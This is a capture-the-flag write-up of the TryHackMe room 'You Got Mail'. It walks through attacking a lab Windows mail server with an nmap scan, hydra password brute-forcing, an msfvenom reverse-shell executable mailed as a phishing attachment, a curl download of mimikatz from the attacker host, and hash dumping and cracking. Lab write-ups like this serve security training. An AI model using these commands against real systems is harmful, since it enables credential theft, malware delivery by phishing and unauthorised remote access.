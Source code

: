 ```yaml
---
title: "TryHackMe: You Got Mail"
author: jaxafed
categories: [TryHackMe]
tags: [web, brute-force, hydra, cewl, phishing, post-exploitation]
render_with_liquid: false
img_path: /images/tryhackme_you_got_mail/
image:
  path: room_image.webp
---
```


**You Got Mail** started with basic enumeration to discover a list of email addresses and create a custom wordlist to find the password for one of them. We then used this account to send phishing emails to other discovered email addresses with an executable attachment to gain a shell. After obtaining a shell, we performed some post-exploitation to discover two passwords and complete the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/yougotmail){: .center }

## Initial Enumeration

### Nmap Scan

Starting with an `nmap` scan, we can see that, apart from some of the usual `Windows` services, there are also mail-related services running.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.118.67
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: NAMESPACE QUOTA CHILDREN IMAP4 CAPABILITY completed OK IMAP4rev1 RIGHTS=texkA0001 ACL IDLE SORT
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
...
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Web Application

Along with the target, we are also given a website at `https://brownbrick.co/`, where we find a static site.

![Brownbrick Index](brownbrick_index.webp){: width="1200" height="600"}

Checking the **Our Team** section at `https://brownbrick.co/menu.html`, we can find a couple of email addresses.

![Brownbrick Menu](brownbrick_menu.webp){: width="1200" height="600"}

## Shell as wrohit

From the emails, we can create a wordlist as follows:

```
fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```
{: file="emails.txt" }

Using the web application, we can also create a custom wordlist for passwords using `cewl`:

```console
$ cewl --lowercase https://brownbrick.co/ > passwords.txt
```

Using `hydra` to test these passwords against the email addresses we found, we are able to discover the password for the `lhedvig@brownbrick.co` email account:

```console
$ hydra -L emails.txt -P passwords.txt 10.10.118.67 smtp -s 587 -t 16
...
[587][smtp] host: 10.10.118.67   login: lhedvig@brownbrick.co   password: bricks
...
```

Now that we have valid credentials, we can use them to send emails to other users.

First, we create a reverse shell executable to use as an attachment with `msfvenom`:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.22 LPORT=443 -f exe -o shell.exe
```

Then, using our email list, we can use `sendemail` to send emails with our executable as an attachment to the other users:

```console
$ for email in $(cat emails.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.118.67:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done
```
{: .wrap }

With this, we can see that our executable is executed by one of the users, granting us a shell as `wrohit` and we can then read the flag located at `C:\Users\wrohit\Desktop\flag.txt`.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.118.67] 49773
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Mail\Attachments>whoami
brick-mail\wrohit
C:\Mail\Attachments>type C:\Users\wrohit\Desktop\flag.txt
THM{[REDACTED]}
```

## Finding the Passwords

### Password of wrohit

At this point, since we are a member of the `Administrators` group, we can simply upload **Mimikatz** to the machine and use it to dump the hashes from the `SAM` registry as follows:

```
C:\ProgramData>curl http://10.11.72.22/mimikatz.exe -o mimikatz.exe
C:\ProgramData>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
...
RID  : 000003f6 (1014)
User : wrohit
  Hash NTLM: 8458995f1d0a4b0c107fb8e23362c814
...
```

We can then use **[CrackStation](https://crackstation.net/)** to crack the hash and recover the password for the user.

![Crackstation One](crackstation_one.webp){: width="1000" height="100"}

> There are also many other ways we could have achieved the same goal. For example, we could also obtain the user's hash using the `sekurlsa::msv` module or directly retrieve the password using `sekurlsa::wdigest` instead of cracking the hash. Alternatively, in a scenario where we did not have permissions to run these modules, since we already have a shell as the `wrohit` user, we could have run **responder** on our machine and used the existing shell to force authentication to our server, capturing the hash for the user and cracking it.
{: .prompt-tip }

### Password for hMail Dashboard

Lastly, we are tasked with finding the password for the **hMailServer Administrator Dashboard**, which we can find in hashed form inside the `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI` configuration file:

```
C:\>type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
...
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
...
```

Once again, using **[CrackStation](https://crackstation.net/)** to crack the hash, we can retrieve the password and complete the challenge.

![Crackstation Two](crackstation_two.webp){: width="1000" height="100"}

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>